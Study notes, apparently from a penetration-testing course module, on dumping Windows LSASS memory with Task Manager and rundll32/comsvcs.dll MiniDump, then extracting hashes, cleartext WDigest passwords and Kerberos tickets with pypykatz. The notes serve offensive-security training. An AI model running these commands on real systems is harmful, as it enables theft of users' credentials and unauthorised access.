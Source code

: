 # Attacking LSASS

### Dumping LSASS Process Memory

**Task Manager Method**

![Task Manager Memory Dump](https://academy.hackthebox.com/storage/modules/147/taskmanagerdump.png)

The file will be saved in the following location.

```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

**Rundll32.exe & Comsvcs.dll Method**

```powershell-session
PS C:\Windows\system32> Get-Process lsass
```

**Creating lsass.dmp using PowerShell**

```powershell-session
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

**Using Pypykatz to Extract Credentials**

```shell-session
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```

The output will have the following sections that we need to focus

<table><thead><tr><th width="125">Sections</th><th>Descriptions</th></tr></thead><tbody><tr><td><a href="https://docs.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package">MSV</a></td><td><a href="https://docs.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package">MSV</a> is an authentication package in Windows that LSA calls on to validate logon attempts against the SAM database. Pypykatz extracted the <code>SID</code>, <code>Username</code>, <code>Domain</code>, and even the <code>NT</code> &#x26; <code>SHA1</code> password</td></tr><tr><td>WDIGEST</td><td><code>WDIGEST</code> is an older authentication protocol enabled by default in <code>Windows XP</code> - <code>Windows 8</code> and <code>Windows Server 2003</code> - <code>Windows Server 2012</code>. LSASS caches credentials used by WDIGEST in clear-text.</td></tr><tr><td><a href="https://web.mit.edu/kerberos/#what_is">Kerberos</a></td><td>Network authentication protocol used by Active Directory in Windows Domain environments. LSASS <code>caches passwords</code>, <code>ekeys</code>, <code>tickets</code>, and <code>pins</code> associated with Kerberos</td></tr><tr><td>DPAPI</td><td>set of APIs in Windows operating systems used to encrypt and decrypt DPAPI data blobs on a per-user basis for Windows OS features and various third-party applications</td></tr></tbody></table>




